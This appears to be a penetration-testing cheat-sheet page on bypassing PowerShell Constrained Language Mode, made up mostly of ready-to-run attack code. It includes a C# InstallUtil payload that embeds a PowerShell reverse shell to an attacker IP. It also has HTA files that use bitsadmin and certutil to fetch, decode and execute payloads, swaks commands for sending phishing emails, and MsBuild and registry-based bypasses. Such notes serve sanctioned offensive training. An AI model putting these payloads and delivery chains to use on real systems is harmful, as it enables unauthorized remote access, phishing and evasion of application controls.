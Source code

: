 # CLM Bypass

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Unprivileged] Bypass Using InstallUtil (bypass_clm_rev_shell.exe)</summary>

<pre class="language-csharp" data-line-numbers><code class="lang-csharp">using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello from main");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
<strong>        public override void Uninstall(System.Collections.IDictionary savedState)
</strong>        {
            string rev = @"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',53);
                                    $stream = $client.GetStream();
                                    [byte[]]$bytes = 0..65535|%{0};
                                    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
                                    {
	                                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	                                    try
	                                    {	
		                                    $sendback = (iex $data 2>&#x26;1 | Out-String );
		                                    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	                                    }
	                                    catch
	                                    {
		                                    $error[0].ToString() + $error[0].InvocationInfo.PositionMessage;
		                                    $sendback2  =  ""ERROR: "" + $error[0].ToString() + ""`n`n"" + ""PS "" + (pwd).Path + '> ';
	                                    }	
	                                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	                                    $stream.Write($sendbyte,0,$sendbyte.Length);
	                                    $stream.Flush();
                                    };
                                    $client.Close();";

            //String cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.198/runall.ps1') | powershell -noprofile";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(rev);
            ps.Invoke();
            rs.Close();
        }
    }
}

</code></pre>



![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png>)

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Select Release & x64 version and build

### Exploitation

```bash
# Find full filepath of installutil: 
dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$
 
# Download CLM bypass reverse shell from Kali:
curl.exe http://192.168.45.198/bypass_clm_rev_shell.exe --output bypass_clm_rev_shell.exe

# Bypass clm with installutil:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass_clm_rev_shell.exe"

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta file from email

<pre><code># Encode bypass_clm_rev_shell with certutil
<strong>certutil -f -encode bypass_clm_rev_shell.exe enc.txt
</strong></code></pre>

* Rev.hta

```javascript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
//Using InstallUtil
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\bypass.exe")

</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

* Send Email to user

```bash
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```



</details>

<details>

<summary>[Unprivileged] Bypass Using MsBuild (FullBypass.csproj)</summary>

In [FullBypass.csproj](https://raw.githubusercontent.com/n000b3r/PrivEsc/d2c98251012732790d19b2e390bb448a7b2bb15c/Windows/clm_bypass/FullBypass.csproj): edit line168 to use [runall.ps1 --> AMSI bypass (1.txt & 2.txt) --> simple\_ps\_revshell.ps1](powershell-shellcode-runner.md#simple-powershell-reverse-shell-with-amsi-bypass-simple_ps_revshell.ps1)

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png>)

```
# Download to Victim machine
curl.exe http://192.168.45.198/FullBypass.csproj -o FullBypass.csproj

# Build the FullBypass C# project
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta from email

```
# Encode FullBypass.csproj with certutil
certutil -f -encode FullBypass.csproj enc.txt
```

* Rev.hta

<pre><code>&#x3C;html>
&#x3C;head>
&#x3C;script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
// Using msbuild
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\FullBypass.csproj;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe c:\\windows\\temp\\FullBypass.csproj")
<strong>
</strong><strong>&#x3C;/script>
</strong>&#x3C;/head>
&#x3C;body>
&#x3C;script language="JScript">
self.close();
&#x3C;/script>
&#x3C;/body>
&#x3C;/html>
</code></pre>

* Send email to user

```
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```

</details>

<details>

<summary>[Unprivileged] Custom InstallUtil Application Template</summary>

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace InstallUtil_custom_exe
{
    internal class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        //Put DLLImports here
        
        //End of DLLImports
        
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
         //Put custom code here

         //End of custom code
        }
    }
}

```

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

```bash
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```

</details>



